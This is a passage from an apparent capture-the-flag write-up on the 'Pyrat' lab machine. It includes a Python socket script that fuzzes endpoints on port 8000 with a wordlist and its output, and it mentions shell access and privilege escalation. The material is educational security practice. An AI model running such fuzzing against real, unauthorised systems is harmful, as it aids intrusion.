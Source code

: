 - “shell”: The server would establish a shell connection with pty.spawn just like I used the reverse script
- the other endpoints: could lead to another process that potentially leads me to escalate my privilege

So on, I write a simple script using an endpoint wordlist to send them to the target sever on port 8000:

```python
import socket

def fuzz_endpoints(ip, port, endpoints):
    for endpoint in endpoints:
        try:
            client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client_socket.connect((ip, port))

            print(f"Testing: {endpoint}")
            client_socket.sendall(endpoint.encode() + b'\n')

            response = client_socket.recv(1024)
            print(f"Response from {endpoint}: {response.decode()}\n")

            client_socket.close()
        except Exception as e:
            print(f"Error with {endpoint}: {e}")

# List of potential endpoints to fuzz
endpoint_list = []

with open("/usr/share/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt", "r") as wordlist:
    endpoint_list.extend(wordlist.readlines())

# Target IP and port (replace with actual values)
target_ip = "pyrat.thm"
target_port = 8000

# Fuzz the endpoints
fuzz_endpoints(target_ip, target_port, endpoint_list)
```

And I successfully hit the correct endpoint after a minute:

```python
$ python3 fuzzing_endpoints.py
Testing: 0
Response from 0:

Testing: 1
Response from 1:

Testing: 1.0
Response from 1.0:

...

Testing: account
Response from account: name 'account' is not defined

Testing: accounts
Response from accounts: name 'accounts' is not defined

Testing: activate
Response from activate: name 'activate' is not defined

```